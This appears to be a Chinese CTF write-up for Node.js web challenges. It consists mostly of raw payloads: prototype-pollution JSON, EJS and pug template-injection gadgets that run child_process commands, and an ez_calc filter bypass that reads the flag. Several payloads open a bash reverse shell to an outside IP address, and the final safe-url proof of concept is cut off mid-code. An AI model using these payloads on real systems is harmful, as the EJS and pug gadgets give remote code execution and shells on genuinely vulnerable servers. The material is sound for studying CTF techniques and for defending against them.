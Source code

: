 
```js

{"username":"1","password":"1",
"__proto__":{"ctfshow":"36dboy"}}

还可以反弹shell
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/1.14.127.40/9999 0>&1\"')"}}
```

### ejs rce

```js
{
        "constructor": {
            "prototype": {
            "outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/1.14.127.40/9999 0>&1\"');var __tmp2"
            }
        }
    }
```

`{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/1.14.127.40/9999 0>&1\"');var __tmp2"}}}`

### ez_calc

发现flag的名字很长，直接读取的话长度不够，而且这里过滤了x，也无法直接利用exec，但是实际上这里是可以绕过的，因为我们通过`require`导入的模块是一个`Object`，那么就可以通过`Object.values`获取到`child_process`里面的各种方法，那么再通过数组下标[5]就可以得到`execSync`了，那么有了`execSync`后就可以通过写入文件的方式读取flag了，payload如下:

`calc[]=Object.values(require('child_process'))[5]('cat${IFS}/G*>p')&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.`
遍历一下当前目录发现p已经成功写入，接下来读取p就行了，记得带上回显，用nl读就行：

`calc[]=require('child_process').spawnSync('nl',['p']).stdout.toString();...`

### ast注入+pug模版

```js
{
  "__proto__.hero":{
    "name":"奇亚纳"
},
"__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync('cat /flag > /app/static/1.txt')"
    }
}
```

### safe-url

poc

```js
?delay=2147483648
 
e=(function () {
  const process = clearImmediate.constructor("return process;")();
```
